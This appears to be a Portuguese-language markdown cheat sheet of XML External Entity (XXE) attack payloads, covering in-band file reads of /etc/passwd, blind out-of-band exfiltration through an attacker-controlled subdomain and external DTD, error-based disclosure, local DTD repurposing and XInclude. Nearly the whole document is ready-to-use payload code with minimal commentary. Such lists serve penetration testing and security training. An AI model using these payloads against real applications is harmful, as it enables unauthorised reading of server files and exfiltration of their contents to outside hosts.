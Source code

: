 # XXE Attacks

Explorando XXE para recuperar aquivos do sistema:

```xml
﻿<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Explorando XXE com interação OOB para ataques do tipo *bind*

```xml
﻿<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.com"> ]> 
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Explorando XXE com interação OOB com XML *parameters entities*

```xml
﻿<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]> 
<stockCheck><productId>1</productId></stockCheck>
```

DTD URL

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Esta técnica pode no funcionar com alguns arquivos do sistema, principalmente os arquivos que contem LF. Como prova de conceito o arquivo ```/etc/passwd``` pode ser substituido pelo ```/etc/hostname```

Explorando XXE através de mensagens de erros:

Arquivo armazenado em servidor sobre controle:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

Requisição XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]> 
<stockCheck><productId>1</productId></stockCheck>
```

Explorando XXE do tipo bind por reposicionamento de um arquivo DTD local e por mensagem de erro:

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```
Explorando XInclude:

```html
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo> &storeId=1
```




